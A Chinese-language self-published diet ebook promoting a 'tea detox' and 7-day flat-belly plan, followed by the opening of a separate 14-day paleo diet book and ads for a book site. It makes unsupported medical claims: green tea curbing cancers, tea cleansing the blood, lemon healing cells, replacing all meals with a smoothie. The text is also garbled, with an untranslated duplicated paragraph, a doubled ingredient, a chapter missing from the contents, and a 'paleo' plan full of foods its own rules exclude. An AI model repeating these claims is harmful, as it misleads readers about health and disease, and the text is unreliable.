# 茶叶清体挑战

## 目录

- 引言
- 第1章 - 排毒茶如何帮助你
- 第2章 - 绿茶知识
- 第3章 - 一日清体
- 第4章 - 今日可试的茶饮排毒食谱
- 结论

## 引言

我要感谢并祝贺你下载了这本书：《茶叶清体挑战：7天茶饮清体重置，减掉10磅，拥有你一直想要的平坦小腹》。

本书包含了关于如何减掉多余体重、过上更健康、更幸福生活的行之有效的步骤和策略。

为什么当大多数人想到健康和健身时，第一反应是感到气馁，仿佛这个想法根本不存在？当然，我们不可能都是健身专家，但如果你真的想恢复身材，有一些技巧可以帮助你努力获得一直想要的身材。无论是减肥还是拥有更多精力，进行茶饮清体都是开启更健康生活方式的最有效方法之一。

虽然身体燃烧储存脂肪的天然能力会随着年龄增长而减慢，但这并不意味着你应该放弃健身目标。无论你处于人生的哪个阶段，你仍然可以做很多事情来改善身体、心理和情感健康，而阅读本书是过上你一直想要的生活的第一步。

本书旨在教你如何通过茶饮清体开始更健康、更绿色的生活方式。这并不是一种帮助你快速减肥的时尚饮食法，而是鼓励你利用茶饮排毒做出更健康的生活方式选择，并在此过程中重塑你的生活方式。

### 这本书适合谁？

- 适合那些厌倦了无效速成节食的人。
- 适合那些希望利用能量来增强力量的人。
- 适合那些想要做出更健康的饮食选择、恢复正常饮食规律的人。
- ……以及更多！

那你还在等什么？今天就开始阅读，改变你的生活方式吧！

再次感谢你下载这本书，希望你喜欢！

别忘了在文末查看我最喜欢的饮食方法之一：

了解我如何通过3周饮食法快速减掉顽固多余脂肪的策略。

拉到文末获取更多信息，并获得免费报告和奖励内容！

## 在我们开始之前……奖励：获取我提供的更多免费视频和书籍！

感谢你阅读我的书！我希望你从中获得了巨大的价值。为了表示感谢，我将为你提供更多与健康相关的免费视频、书籍和信息！

只需点击下方链接，在我的网站上输入你的电子邮件地址即可！

如果你真的想改变自己的饮食和健康状况，你将获得的所有内容都会对你有用。我将提供：

- 我写的更多书籍
- 制作特色菜肴的视频
- 关于我最喜欢的健康产品的信息
- 以及更多！

点击此处获取所有这些信息！

## 第1章 - 排毒茶如何帮助你

过去几年，排毒的名声变得不太好。尽管有无数排毒产品声称自己是“唯一的减肥解决方案”，但我们现在都知道，液体饮食单靠自身根本无法奏效。一开始你的体重可能会突然下降，但这通常也意味着营养和能量的下降。它可能帮助你启动减肥之旅，但同时也很难持续下去。

茶饮排毒，也就是大多数名人喜欢称之为“teatox”的方式，是一种更健康的身体排毒方法。你不需要用液体饮料代替正餐，只需在现有且富有营养的饮食中加入几杯花草茶即可。这意味着即使在尝试清除血液中滞留的有害毒素时，你仍然可以享用所有你喜欢的水果和蔬菜。

由于排毒茶很容易融入任何人的生活方式，难怪无数名人现在都对其惊人的效果赞不绝口。茶究竟有什么特别之处，使它成为当今市场上最好的减肥解决方案？以下是茶如何帮助你开启更健康、更幸福的生活方式。

根据美国研究人员2013年进行的一项研究，大量饮茶具有广泛的好处，几乎覆盖人体的各个领域。从降低中风风险到提升心理表现，茶富含儿茶素，即使在摄入更少卡路里的情况下，也能帮助提升你的能量水平。这可能是爱喝茶的人在改变生活方式时，身体和情绪都能更好地应对的主要原因。

高品质的茶，无论是绿茶还是红茶，都富含抗氧化剂，有助于增强身体天然的清洁能力。抗氧化剂在排毒过程中起着至关重要的作用，因为它能显著降低氧化应激水平，并清除体内的自由基。虽然仅靠喝茶不足以完成这项任务，但它仍然能让身体的排毒过程轻松得多。与许多旨在扰乱身体自然循环的排毒产品相比，它被认为是无害的。

因为有些茶特别添加了柠檬草、蒲公英甚至水飞蓟等成分，所以你从茶饮排毒中获得的益处肯定比传统排毒更多。你可以选择完美的茶配方，帮助你实现特定的健康和健身目标。如果你正在寻找一种能减轻肝脏压力的排毒饮品，例如加入生姜的花草茶就能更有效地清洁你的血液。关键在于找到合适的茶配方，不仅要符合你的心情或口味，还要与你的身体系统相辅相成。

然而，请记住，并非所有茶饮排毒茶都同样有效。有些含有一种效力强大但危险的排毒成分，叫做番泻叶。番泻叶是一种草药泻药，能刺激肠道排出内容物。虽然这种成分在短时间内对身体有帮助，但长期服用过量番泻叶会对消化系统造成破坏性影响。它可能导致电解质失衡，如果不小心，还会导致脱水。如果你感觉便秘，连续几个晚上喝番泻叶茶可能会有帮助，但不要让它成为你每天的饮品。

那么，什么时候是喝茶的最佳时间？健康专家认为，只要你在一天中努力多喝水，就可以随时喝茶，因为大多数茶配方都含有咖啡因。然而，对于那些每天只能喝1-2杯茶的人来说，最好在醒来时喝第一杯，在准备睡觉前喝第二杯。这样，他们就能摄入足量的抗氧化剂，而无需对日常生活做出重大改变。

无论你选择哪种茶饮排毒配方，一定要配合健康的饮食。如果没有适当的饮食计划，茶饮排毒能起的作用有限。如果你想给身体排毒，你需要做出改变人生的决定，从饮食计划中剔除加工食品。你需要用水果、蔬菜和全谷物滋养身体，以增强消化系统的自然循环。一旦你开始掌握健康饮食的诀窍，给身体排毒就会变得轻而易举。


## 第2章 - 绿茶事实

近年来，绿茶风靡一时。自从医学研究显示出其明显的减肥效果以来，世界各地的人们便选择绿茶而非寻常饮品。然而，尽管你可能觉得每喝一口绿茶都变得更健康，但你需要弄清事实，才能充分利用它的益处。这种饮品究竟有什么特别之处，让人们为之疯狂？以下是一些你绝对需要了解的绿茶事实。

### 绿茶能促进迟缓的新陈代谢

随着年龄增长，我们的新陈代谢会减慢，而基因也会影响身体消耗热量和储存脂肪的方式。如果你属于那种似乎无法以应有速度燃烧脂肪的人，那么把绿茶加入日常饮食或许正是适合你的完美解决方案。无数研究已证明，绿茶能增强身体燃烧脂肪的天然能力。当然，为了达到最佳效果，你需要减少糖分摄入并增加蔬菜摄入量，但每天早晨一杯绿茶就足以激活迟缓的新陈代谢。

### 绿茶能降低坏胆固醇水平

绿茶的另一个惊人事实是，它能显著降低胆固醇水平，尤其是LDL，也就是我们所说的坏胆固醇。研究表明，每天饮用4杯或更多绿茶的人，出现高LDL水平的可能性更低，而高LDL水平与多种心脏病有关。如果4杯对你来说似乎太多，你总可以选择服用许多保健品商店都有售的绿茶片。

### 绿茶能遏制某些癌症

研究还证明，经常饮用现泡绿茶有助于降低患某些癌症的风险，这些癌症会影响前列腺、卵巢、子宫内膜和乳腺。即使对已经确诊的人来说，饮用绿茶也可能产生积极影响。

为什么？因为它含有大量抗氧化剂，可以对抗自由基。体内抗氧化剂越多，身体就越能更好地应对从内部攻击它的因素。

### 绿茶能降低患糖尿病风险

虽然关于绿茶对人体血糖水平影响的研究仍不多，但每天至少饮用2杯有助于降低食欲、抑制对糖的渴望。实际上，饮用绿茶可以帮助你减少碳水化合物和糖分摄入，从而降低患2型糖尿病的风险。

### 绿茶能增强整体脑功能

绿茶不仅具有镇静作用，还对脑功能有积极影响。新研究表明，饮用绿茶是增强短期回忆和提高记忆功能的简便方法。虽然建议进一步测试绿茶对其他脑功能的影响，但它在帮助对抗阿尔茨海默病等记忆相关疾病方面显示出巨大潜力。

如你所见，把绿茶作为主要的茶排毒饮品，除了有助于保持腰围，还有许多其他益处。如果你想收获这些益处，可以尝试每天平均饮用3至10杯。再次强调，开始茶排毒后，你不必完全剥夺自己的食物。只要吃得干净，你很快就能看到体重和生活方式的显著变化。

## 第3章 - 一日排毒

许多节食者没有意识到的是，cleanse（净化）这个词实际上是动词，而不是名词。如果你不打算有意识地决定过上更健康的生活方式，那么所有努力注定会白费。你应该把这种排毒视为帮助你实现长期目标的手段，而不只是短期的补救办法。尽管这个过程被称为一日排毒，但它的设计初衷是帮助你启动一段有望成为长期旅程的过程。关键在于做出正确决定，以改变你当前生活方式的各个方面。

如果你是净化计划的新手，首先需要退一步，真正理解自己做这件事的动机。你进行净化是为了穿进那件婚纱，还是为了变得更健康而加入这个计划？严格来说，想要进行茶排毒并没有绝对错误或正确的动机，但有些动机会决定你能否应对它。如果你想在这段旅程中取得成功，就需要围绕长期目标来建立自己的动机。

你还需要对整个过程中保持耐心，尤其是如果你想避免在草率地匆忙进行茶排毒时可能出现的剧烈副作用。如果你进行得太快，身体会让器官过度工作，而它们有可能最终不堪重负。草率的做法会导致一阵阵恶心、爆痘，甚至头痛，所以最好始终让身体按其自然进程运作。

短期计划只会把毒素推来推去，而不能妥善将其排出。关键在于让身体按自己的节奏运作，并遵循一个能帮助你实现长期减肥目标的计划，即使这意味着你需要在过程中培养强大的自律意识。

那么，我们到底该怎样进行这个一日排毒呢？既然排毒是让身心恢复最佳状态的最有效方法之一，我们就必须在身体健康与心理健康之间找到完美平衡。请记住，这一天主要是为了帮助你养成长期习惯。令人遗憾的是，其他排毒方案只重视排毒后体重秤上应显示的数字，而不重视你完成后的感受。因此，除了在身体上做好准备，你也应该在心理上做好准备。

### 那么，我们开始吧，好吗？

第一步是备足新鲜柠檬汁。柠檬被视为大自然赐予的药物，能够治愈和修复体内的细胞。难怪在几乎任何排毒方案中，柠檬都发挥着重要作用，确保身体即使承受外部压力也仍能正常运转。

在茶排毒当天早晨，起床后先喝一杯温柠檬水，以增强肝脏的排毒功能。不要用一杯咖啡唤醒身体，而是喝柠檬水来补充能量，同时避免脱水。把半个柠檬挤入一杯温水中，并将这种饮品变成你每天早晨的习惯。想要一点甜味？你随时可以按口味加入蜂蜜。

接下来，为自己准备一杯绿色冰沙，它能提供身体维持一整天所需的全部维生素和矿物质。只需将半颗菠菜、半颗罗马生菜、3根芹菜、1个梨、1根香蕉和1个苹果与2大杯水一起搅打。将半个柠檬挤入冰沙中，搅拌均匀后饮用。用这杯绿色冰沙替代全天所有正餐，不仅能净化你的身体系统，还能为身体提供排出毒素所需的纤维和酶。进行排毒并不意味着你应该剥夺自己享受大自然恩惠的权利。

用排毒茶替代上午的零食，这有助于你对抗午间食欲，并让你感觉神清气爽。制作排毒茶时，只需将一包姜茶茶包放入一杯刚煮沸的水中浸泡2至3分钟，时间长短取决于你希望姜味有多浓。饮用前挤入少许柠檬汁，并撒上一小撮辣椒粉。这3种成分共同作用，分解体内的毒素，同时保护内脏免受感染。对某些人来说，这可能需要慢慢习惯的味道，但只需淋上一点有机蜂蜜就能轻松解决。

到晚餐时间已经饿得不行？那么该为自己准备一顿由深色叶菜和切片蔬菜组成的餐食了。深色叶菜加上一些爽脆蔬菜，会为身体提供大量纤维，供接下来一晚使用。如果你想让消化系统活跃起来、燃烧更多热量，甚至可以用一些辣椒粉来增添风味。进行排毒时，最好坚持食用生的有机蔬菜，这样在消化时不会给胃带来太大负担。晚餐要保持清淡。

吃肉只会让你偏离目标，所以此时最好避开所有诱惑。既然这只会持续一天，你也可以舍弃任何形式的含防腐剂食品。这一天你可能还想避免西红柿（因为其酸性）和牛油果（因为其高脂肪含量），因为这两种食物可能会拖累你的整体排毒。如果你想快速完成排毒，就需要多做一点研究，看看哪些看似无害的水果和蔬菜需要避开。

你已经坚持到这一步，所以不要犯进行排毒时最常见的错误——吃任何哪怕只有一丝不健康脂肪的东西。寻找像椰子油这样不含胆固醇的替代品。这种中链脂肪酸来源富含多种益处，例如保护身体免受细菌侵袭，并支持甲状腺功能。不过，为了成功排毒，请务必努力限制油脂摄入，至少在进行这个一日排毒期间要这样做。


一日排毒并非一夜见效，所以不要指望完成后就能减掉超过几磅。它只是朝着正确方向迈出的一步，因为你在饮食中加入更多茶排毒饮品并结束不健康饮食选择。确保以你能做到的最佳方式逐步进入这次排毒，并开始为自己的决定负责。毕竟，你知道自己需要走多远。遵循这些指南，你将在短短几周内开始看到最理想的自己逐渐展现。

## 第 4 章 - 今天可以尝试的茶排毒食谱

茶排毒饮品起初可能令人兴奋，但如果你每天喝同样的茶饮，也会变得单调。只是因为你非常想减肥，并不意味着你应该每天都满足于同一款茶饮。如果你想探索不同茶排毒饮品，为身体提供所需的所有抗氧化剂同时提升整体健康状况，那么这里有一些你今天需要尝试的茶食谱。

### Green Tea Smoothie

将绿茶、羽衣甘蓝和苹果混合在一杯奶昔中会得到什么？一杯富含抗氧化剂和植物营养素的饮品。这款奶昔不仅美味，还能让你的身体在日常营养方面保持最佳状态。酸奶为这款水果和蔬菜组合提供了顺滑且有趣的口感。只喝一杯，你就会感觉神奇几个小时。

Fun and tasty ingredients:
- 1杯煮好的绿茶，冷藏
- ½个红苹果
- 1/3杯婴儿羽衣甘蓝
- 1汤匙希腊酸奶
- ½汤匙有机蜂蜜
- 冰块（可选）

How to:

将所有原料混合搅拌至浓稠的奶昔质地。如果你想要不含酸奶的奶油口感，可以尝试改用½杯新鲜牛油果代替。这不仅能增加纤维，还能为你在茶排毒期间提供身体所需的钾。

### Energy Boost Tea Shake

绿茶以另一种咖啡因来源而闻名，所以如果你早上需要快速提神，这是在茶排毒期间的完美饮品。咖啡因含量只有普通咖啡的一半，这款提神奶昔足以唤醒你，而不会导致咖啡因冲击。此外，橙子和香蕉的组合是开启清晨的好方法。

Fun and tasty ingredients:
- 1茶匙绿茶抹茶粉
- 1杯椰奶
- ½个去籽橙子
- 1根中等大小香蕉
- ½汤匙有机蜂蜜
- 冰块（可选）

How to:

将所有原料搅拌至浓稠奶昔的质地。如果你觉得口感不够饱满，可以加入½根香蕉。如果你想让这杯饮品替代早餐，也可以加入一汤匙蛋白粉。每天饮用，这杯奶昔应能让你感到饱足和满足，直到午餐时间。

### Tropical Detox Smoothie

热带水果如木瓜和芒果能真正提升这款奶昔的风味。它们不仅富含大量营养，颜色也让饮品看起来非常漂亮。除了抗氧化剂，姜茶是一种强效饮品，有助于增强免疫力以对抗感染和疾病。如果你正在寻找一种令人兴奋的排毒方式，不妨试试这款奶昔。

Fun and tasty ingredients:
- 1杯煮好的姜茶，冷藏
- 1杯椰奶
- ½杯切块木瓜
- ½杯切块芒果
- 1根中等大小香蕉
- 冰块（可选）

How to:

将所有原料搅拌至恰到好处的奶油质地。随意根据季节更换水果。如果你想获得最大营养，请尽可能选择新鲜水果。

### Fruity Berry Tea Detox Smoothie

你正在寻找一种新鲜健康的锻炼前能量饮替代品吗？制作这款蒲公英和绿茶奶昔，你的锻炼就准备就绪了。浆果会为你的身体提供真实能量，支撑你完成任何喜欢的活动。把它作为你美味的日常运动饮品，你就会一直期待锻炼。

Fun and tasty ingredients:
- 1杯煮好的蒲公英茶，冷藏
- ½茶匙绿茶抹茶粉
- ¼杯树莓
- ¼杯树莓
- 1汤匙希腊酸奶
- 冰块（可选）

How to:

将所有原料搅拌至浓稠奶油质地。如果你关注希腊酸奶的卡路里含量，始终可以使用低脂替代品。如果这款食谱对你来说太酸，可以加一茶匙蜂蜜。

### Ginger Tea Spiced Tonic

谁能想到将姜茶与一些香料混合会制成一种有助于减肥和增强免疫系统的健康补品？这杯饮品不仅在饱餐后很棒，在流感季节也效果奇佳。当身体受到攻击时，让它恢复正轨的唯一方法就是用它能承受的所有营养来滋养它。医生的嘱咐！

Fun and tasty ingredients:
- 3袋姜茶茶包
- ¼茶匙有机肉桂
- ¼茶匙姜黄
- 8盎司近沸纯净水
- 1汤匙有机蜂蜜

How to:

将茶包浸泡在茶壶中并加入香料和蜂蜜。茶准备好后，取出茶包即可享用。如果你想寻找异国风味的冲泡，可以尝试不同的香料。为了获得清新的余味，倒茶前挤入半个柠檬。

### Green Frappe

想用一杯饮品犒劳自己，让你感觉像在高端咖啡店悠闲品饮？那么制作这款绿拿铁吧，获得每日一份浓郁绿茶风味，而无需繁琐的泡茶包和等待饮品冷却的过程。抹茶粉富含相同的健康益处，却省去准备时间。

Fun and tasty ingredients:
- 1茶匙绿茶抹茶粉
- ½汤匙有机蜂蜜
- 1杯椰奶
- 冰块（可选）

Blend all the ingredients until you get a creamy frothy drink. Since you’ll only be using a few key ingredients, you can enjoy the richness of this drink at just about any time that you please. The green frappe is best enjoyed alone in the hot summer months or with friends as you talk about your amazing weight loss journey so far.

将所有原料搅拌至奶油状泡沫饮品。由于你只会使用几种关键原料，你可以在任何你喜欢的时间享受这杯饮品的丰富口感。绿拿铁最适合在炎热的夏季独自享用，或与朋友一起边聊你迄今为止惊人的减肥之旅。

### Awesome Start Tea Juice

绿茶从3种高度营养的水果中获得果味冲击。菠萝增加纤维，梨带来甜味，而木瓜呢？它赋予这杯饮品独特的风味，同时添加大量维生素C。当你感到虚弱或发烧时制作这杯饮品，你很快就会恢复。谈谈如何从自由基造成的损害中获得最大保护。

Fun and tasty ingredients:
- 1杯煮好的绿茶，冷藏
- ½杯菠萝块
- ½杯切块梨
- ½杯切块木瓜

How to:

将所有原料搅拌至果汁状。确保搅拌至所有水果块完全液化。达到这种质地可能需要一段时间，所以如果你时间紧迫，可以在享用饮品前使用滤网去除块状物。

## 第 5 章 - 7 天平坦小腹减肥计划

这7天真的有可能获得更平坦的小腹吗？虽然长期坚持茶排毒似乎不可能，但在7天内收拾好自己会对身体产生巨大影响。不要把这7天当作问题的快速解决办法，而应将其视为一个过渡阶段，帮助你做出更好的饮食选择和更健康的生活方式决定。你可以尽情谈论排毒，但事实是，没有具体计划，你将得不到想要的结果。

这就是为什么这个计划旨在让向更健康自己的过渡变得更容易忍受。它是关于引入渐进变化，以免身体受到冲击。你需要做的就是严格遵循这个计划，7天内你就会看到全新的自己。

### Monday

开始排毒的最佳方式是养成多喝水的习惯。身体经常将口渴与饥饿混淆，所以如果你总是感到饥饿，那就是身体在告诉你喝水不够。保持水分是排毒的关键要素，也是安全有效提升能量的方法，尤其是在减少卡路里摄入时。餐前喝一杯水，餐后再喝一杯。这样即使没有额外进食，你也会感到满足。

### Tuesday


一旦你的身体得到充分补水，下一步就是开始茶排毒。你在前一章读到的1天排毒在第二天应该更容易进行，因为你实际上通过饮用的水减少了食物摄入。这也是阻止自己沉迷于液体卡路里的完美时机。星期二是你重新思考日常饮品选择的日子。软饮料、果汁和酒精都含有大量糖分，你本来就不希望它们进入体内，所以把戒掉这个习惯作为你当天的个人目标吧。

### 星期三
让用餐成为一种仪式，即使这一天你只吃水果和蔬菜。进行1天断食后，你的身体可能还不适合消化蛋白质和脂肪，所以不要太兴奋。坚持吃蒸熟且轻度调味的蔬菜来满足当天的需求。水果很棒，如果你想吃甜食的话。不要让茶排毒让你感到匮乏，反而要对健康饮食感到兴奋。无论你有多忙，重要的是要抽出时间坐下来，放松并享受你的餐食。当你一直匆忙用餐时，更容易暴饮暴食，因为你没有时间真正咀嚼食物，也没有让身体自行产生饱足感。

### 星期四
你有零食习惯吗？那么就把这一天专门用来摆脱那种“奖励”心态。仅仅因为你感到压力或稍微锻炼了一下，并不意味着你可以放纵自己吃所有喜欢的零食，比如巧克力和薯片。这些零食通常热量和脂肪含量很高，所以用你能想到的所有美味零食来奖励自己，只会强化你脑中“吃它们是可以的”这个想法。如果你想满足甜食和咸食的渴望，不妨寻找更健康的选择，比如水果和坚果。

### 星期五
星期五是关于培养与更健康生活方式相符的新习惯。这包括纠正你的睡眠习惯并进入锻炼状态。研究表明，睡眠不足的人更有可能暴饮暴食，所以如果你想停止渴望，就需要增加睡眠时间。尝试在固定时间睡觉，并在睡前避免玩电子设备。这应该足以营造出优质睡眠的氛围。虽然不是每个人都对锻炼的想法感到兴奋，但你需要找到一种方式来激励自己。先从早晨或夜晚散步开始，或者如果你感觉冒险，可以尝试做10分钟的HIIT初学者锻炼序列。关键是先从某个地方开始并将其变成日常习惯。

### 星期六
如果你一直遵循日程，到现在你应该感觉更健康一些，也没那么饥饿了。用均衡的餐食庆祝周末。你的餐食应包含健康的碳水化合物、蛋白质和健康脂肪的份量。少于这个量，你在几个小时后就会感到饥饿。用一盘淋上清淡橄榄油酱的白鱼来满足你对肉类和脂肪的渴望。

### 星期日
从今天起养成计划餐食的习惯，以便满足所有的营养需求。安排用餐时间，以免跳过餐食。跳过餐食并不会帮助你减肥，相反，它只会让你在下一餐更饥饿。当你的身体开始感到匮乏时，你往往会吃更多来弥补错过的那顿饭。

建立一个常规，让你每天在同一时间吃主餐。你也可以下午加入一些健康的少量零食以保持精力，并且不要忘记用一杯你最喜欢的排毒茶结束餐食。

## 结论
再次感谢你下载这本书！

我希望这本书能帮助你更好地了解如何利用茶排毒获得你一直想要的身体和生活方式。有了正确的信息和心态，恢复身体健康、改善生活质量永远不会太晚。通过充分了解茶排毒的工作原理以及它如何改善你的生活，你很快就会恢复身材。

完全放弃旧习惯可能并不容易，但要知道这是可能的。只要你制定一个行动计划来帮助你走上正确的轨道，一切皆有可能。

请务必立即应用你从本书中学到的知识。你不需要做出激进的改变。你只需要做点什么来启动这个过程，而进行健康的茶排毒就足以帮助你获得一直想要的平坦小腹。

最后，如果你喜欢这本书，我想请你帮个忙，你能为本书在亚马逊上留下评论吗？将不胜感激！

[点击此处为本书在亚马逊上留下评论！](#)

我想尽可能触达更多人，更多的评论将有助于我实现这一目标。谢谢你，祝好运！

另外，请务必点赞我的[脸书](#)页面，并加入关于健康和我最新书籍的讨论！

如果你喜欢这本书，请查看系列中的下一本书…

但等等，如果你还没有观看关于如何用这个3周饮食计划减肥的重要视频，你可能想去看看。点击此处观看。

## 奖励：免费获取我的更多视频和书籍！
感谢你阅读我的书！我希望你从中获得了极大的价值。为了感谢你，我想提供更多免费的视频、书籍和与健康相关的信息！

只需点击下面的链接，并在我的网站上输入你的电子邮件地址！

如果你认真对待改变饮食和健康，你将获得的一切对你都有用。我将提供：
- 我写的更多书籍
- 制作特色菜肴的视频
- 与健康相关的我最喜欢的产品信息
- 以及更多！

点击此处获取所有这些信息！

如果你还没有，请务必查看我的新网站，[KindleBookSpot.com](KindleBookSpot.com)。

这是一个我一直在努力的新项目，我真的希望它对我的读者有价值。我创建这个网站是因为我想给你们一个更简单的方式，在一个地方找到最热门的折扣Kindle书籍。以下是我的网站提供的一些详情：
- 最畅销的免费Kindle书籍列表
- 折扣小说和非小说书籍
- 每周一书
- 精选书籍
- 在我的网站上推广你自己的书籍

这个网站不仅仅是为读者准备的，也是新晋作者在成为畅销书之前推广新书的地方。所以如果你想推广自己的书籍，请查看我的网站，[KindleBookSpot.com](KindleBookSpot.com)。

我希望这个网站对你有用，也希望在那里见到你！

[KindleBookSpot.com](KindleBookSpot.com)。

# 14天古饮食计划
## 古饮食初学者食谱
## 我最喜欢的饮食的额外信息
## 在[KindleBookSpot.com](https://KindleBookSpot.com)获取更多免费和特价书籍

## 目录
- 第1章：古饮食计划的好处
- 第2章：开始古饮食计划
- 第3章：饮食计划（14天指南）
- 第4章：古饮食早餐食谱
- 第5章：午餐食谱
- 第6章：晚餐食谱
- 第7章：古饮食零食
- 第8章：提示和技巧
- 结论

## 引言
我想要感谢并祝贺你下载了这本书，“ The 14 Day Paleo Diet Plan: The Paleo Diet For Beginners Cookbook ”。这本书将教你关于古饮食所需了解的一切，以及它如何提升你的健康。

本书包含经过验证的步骤和策略，教你如何：
- 从零开始制作非常美味和健康的餐食
- 享受多样化的饮食，有助于减肥和改善健康
- 吃并享受高度营养的食物，而不会觉得自己错过了什么
- 吃让你感到满足的餐食
- 如果你希望继续享受健康、美味和均衡的饮食，可长期使用该计划
- 以及更多！

你无需把自己置于非常严格的饮食中以期变得健康。古饮食计划将帮助你迅速改善健康。因为你将不再吃任何加工食品，你的健康会改善，你晚上会睡得更好，看起来也会更好。难怪越来越多的人现在正在享受14天古饮食计划

再次感谢你下载这本书，我希望你喜欢它！


## 开始之前……额外福利：领取我提供的更多免费视频和书籍！

感谢阅读我的书！希望您从中获得了极大的价值。我想通过向您提供更多与健康相关的免费视频、书籍和信息来表达感谢！

只需点击下方链接，并在我的网站上输入您的电子邮件地址即可！

如果您真心想要改变饮食和健康状况，您将获得的一切都会对您有用。我将提供：

- 我撰写的更多书籍
- 制作特色菜肴的视频
- 关于我最喜爱的健康相关产品的信息
- 以及更多内容！

更多详情见文末。

## 第1章：原始人饮食计划的好处

现在越来越多的人开始转向原始人饮食，原因很简单：他们意识到这种饮食对健康非常有益。我们中有太多人吃了太多加工食品，而这些食品对身体毫无益处。

原始人饮食被认为类似于穴居男女在数千年前乃至数百万年前所吃的饮食。他们的饮食由肉类（包括鱼类）、新鲜水果和蔬菜组成。他们不食用乳制品，也不食用加工食品，其中包括谷物产品。

### 您身体偏好的饮食

原始人饮食就是您身体偏好的饮食，因为它包含身体保持健康所需的所有营养。我们的祖先不需要吃加工食品，我们也不需要。尽管我们可能已经有所进化，我们的生活也可能与祖先的生活大不相同，但我们身体所需的营养仍然基本相同。

由于原始人饮食是您身体偏好的饮食，这意味着它具有高度的可持续性。这意味着如果您愿意，可以永久转向原始人饮食，而不会伤害自己。许多其他饮食在长期内不可持续，只应短期采用。

原始人饮食则不同，因为它为身体提供所需的所有营养，并使您成为一个健康的人，降低肥胖以及与饮食相关的疾病和病症的风险。

## 第2章：开始原始人饮食计划

如果您是第一次实施原始人饮食计划，一些有用的提示可能会让您受益匪浅。根据我自己的经验，我知道开始一个新的饮食计划可能相当困难。因此，我决定加入一些提示，让您的旅程稍微轻松一些。

### 犯错

我们在开始新饮食时偶尔会犯错，这种情况人人都会遇到。如果您不小心吃了通常不属于原始人饮食的东西，别担心，尽快回到应该吃的食物上就好。对于已经吃了不该吃的东西，您无能为力，只要尽力确保不再发生，并把它当作一次经验即可。

### 弄清可以从哪里采购食材

在开始这个饮食计划之前，您能做的最好的事情之一，就是弄清楚要从哪里采购食材。如果您当地的商店没有多少新鲜水果和蔬菜可卖，您就需要想办法从哪里获得它们。

去当地的集市逛逛，到附近的果蔬店看看，或者稍微走远一点，去有您所需食物的城镇。有些商店可能非常乐意把您需要的产品直接送到家门口，所以为什么不问问他们能否帮忙呢？

制作本书中一些食谱所需的许多食材，都可以用日常食材来准备。没有什么特别稀奇、您应该买不到的东西。看看您需要的食物，列出所有想买的食材，然后去购物吧！

### 和朋友一起开始计划

您可能想知道我为什么建议您和朋友一起开始这个计划。我这样建议，是因为这会让饮食变得轻松得多。有时候，有人一起交流心得会少很多麻烦。更重要的是，您还会发现，在事情变得艰难时，你们可以互相激励。此外，如果你们坚持计划，还可以一起出去犒劳自己，这从来都不是坏事。

为什么不找一个愿意和您一起参与原始人饮食计划的朋友，甚至家人呢？如果没有人想加入您，那么我的建议是寻找一个在线原始人饮食论坛。这样的论坛可能非常有用，因为它们必定充满了提示、技巧、食谱创意、激励方法，以及任何能让人坚持下去的内容。

不要独自执行这个计划，除非您绝对确信自己每天都能激励自己，即使遇到困难也能坚持。

## 关键食物/食材

### 水果和蔬菜

尽可能新鲜，尽量从当地市场采购，因为它们会格外新鲜，可能便宜很多，而且您也在支持本地商家。

如果您必须吃加工过的水果和蔬菜，请选择添加糖极少或不含添加糖的产品。冷冻水果和蔬菜通常和新鲜的一样好，但同样要注意任何添加糖。

### 乳制品

实施原始人饮食计划时，应避免乳制品。这是因为大多数乳制品经过加工，并不总是对您很有益。

您知道我们的身体天生只适合饮用母乳吗？我们本不该喝牛奶，因为我们无法正确消化它。

如果您仍想在饮食中加入奶，我建议您考虑喝豆奶，或者必要时喝杏仁奶或椰奶。

我知道完全远离乳制品很难，但有一些不错且非常美味的替代品。我知道这些替代品在一定程度上经过加工，但它们能确保您获得所需的钙，以及其他非常有益的营养素。

### 鸡蛋

如果您最喜欢吃一两个鸡蛋，那么您会很高兴地知道，您可以继续吃。鸡蛋完全是天然的，没有经过加工，而且对身体非常有益。早餐时吃个鸡蛋，或者一天中任何时候吃都可以。

## 第3章：饮食计划（14天指南）

原始人饮食计划也许是您可能遇到的最健康的饮食计划之一。它富含新鲜水果和蔬菜，加工食品极少或不含加工食品，餐食和零食的脂肪含量也很低。好消息是，您可以享受这个饮食计划，同时还能摄入各种可以从头开始制作的食物。

请看看我在下面列出的膳食计划。该计划只是对您应该吃什么的建议，您不必严格遵循。您会在后面的章节中找到大多数餐食的食谱。

请注意，虽然许多食谱完全不含加工食品，但少数食谱确实含有。这是因为有些人可能会发现，不使用一些预包装食材就很难制作建议的菜肴。

请记住，市面上有很多乳制品替代品，所以尽可能找到并使用它们。

### 第一天

- 早餐：红薯华夫饼
- 零食：苹果香蕉姜味松饼
- 午餐：鲭鱼沙拉
- 零食：一份水果或一份酸奶
- 晚餐：烧烤鸡肉

### 第二天

- 早餐：香蕉草莓冰沙
- 零食：苹果脆片
- 午餐：扁豆鹰嘴豆汤
- 零食：一份水果或一份酸奶
- 晚餐：豆子番茄辣酱汤

### 第三天

- 早餐：蔬菜炒豆腐
- 零食：椰子香蕉巧克力冰沙
- 午餐：烤鸡肉卷
- 零食：一份水果或一份酸奶
- 晚餐：随意犒劳自己，想吃什么就吃什么

### 第四天

- 早餐：一份或两份水果
- 零食：水果沙拉
- 午餐：辣椒芹菜沙拉
- 零食：一份水果或一份酸奶
- 晚餐：火鸡油桃汉堡

### 第五天

- 早餐：樱桃藜麦粥
- 零食：苹果香蕉姜味松饼
- 午餐：香菜菠菜冰沙
- 零食：一份水果或一份酸奶
- 晚餐：蒸三文鱼和西葫芦


## 第六天

- 早餐：橙子柠檬冰沙
- 加餐：苹果脆片
- 午餐：意面博洛蒂豆汤
- 加餐：一份水果或一杯酸奶
- 晚餐：牛肉面

## 第七天

- 早餐：香蕉混合坚果果干
- 加餐：椰子香蕉巧克力冰沙
- 午餐：梨和柿子沙拉
- 加餐：一份水果或一杯酸奶
- 晚餐：烤土豆配沙拉

## 第八天

- 早餐：红薯华夫饼
- 加餐：苹果香蕉姜味松饼
- 午餐：鲭鱼沙拉
- 加餐：一份水果或一杯酸奶
- 晚餐：烧烤鸡肉

## 第九天

- 早餐：香蕉草莓冰沙
- 加餐：苹果脆片
- 午餐：小扁豆鹰嘴豆汤
- 加餐：一份水果或一杯酸奶
- 晚餐：豆子番茄辣味炖菜

## 第十天

- 早餐：蔬菜豆腐炒
- 加餐：椰子香蕉巧克力冰沙
- 午餐：烤鸡肉卷
- 加餐：一份水果或一杯酸奶
- 晚餐：随心享用任何你喜欢的东西

## 第十一天

- 早餐：一份或两份水果
- 加餐：水果沙拉
- 午餐：辣椒芹菜沙拉
